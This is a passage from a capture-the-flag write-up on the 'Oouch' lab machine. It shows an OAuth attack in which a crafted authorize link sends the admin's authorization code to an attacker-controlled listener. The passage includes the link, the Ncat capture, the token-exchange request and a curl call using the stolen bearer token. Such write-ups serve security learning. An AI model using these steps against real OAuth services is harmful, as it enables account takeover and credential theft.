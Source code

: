 Sending the request to the Admin as a message:
```
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&scope=read&redirect_uri=http://10.10.14.11/token&scope=read&client_id=tTdeI8itA27onSiDT0EjbHgA6U9XFmtAICQK8MdT&state=&response_type=code&allow=Authorize
```

![Sending authorization message](oouch_web-10.png)

After a while the listener receives the token of the admin:
```
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:36968.
GET /token?code=AHMhiCtveS3Xc72YCgKyRtv24dloGu HTTP/1.1
Host: 10.10.14.11
User-Agent: python-requests/2.21.0
(...)
```

This token can be used on the _authorization.oouch.htb:8000/oauth/token/_ page:
```
- Change request method from GET to POST
- Add parameter grant_type to authorization_code
- Add parameter code as the received token
- Add parameter client_id to the Client ID of our application
```
```
POST /oauth/token/ HTTP/1.1
Host: authorization.oouch.htb:8000
(...)
grant_type=authorization_code&code=AHMhiCtveS3Xc72YCgKyRtv24dloGu&client_id=tTdeI8itA27onSiDT0EjbHgA6U9XFmtAICQK8MdT
```

The response is the _access_token_ that is valid for 10 minutes and can be used to gain access to the application:
```
{
"access_token": "mwITwshqJr8HPV3zeHSRnatgQE65VP",
"expires_in": 600,
"token_type": "Bearer",
"scope": "read",
"refresh_token": "PCRiQpx0oYszD2UqsURUtJot1vr24U"
}
```

The application were this can be used is the API on _authorization.oouch.htb:8000/api/get_user_:
```
curl authorization.oouch.htb:8000/api/get_user -H 'Authorization: Bearer mwITwshqJr8HPV3zeHSRnatgQE65VP'
```
```
{"username": "qtc", "firstname": "", "lastname": "", "email": "qtc@nonexistend.nonono"}
```
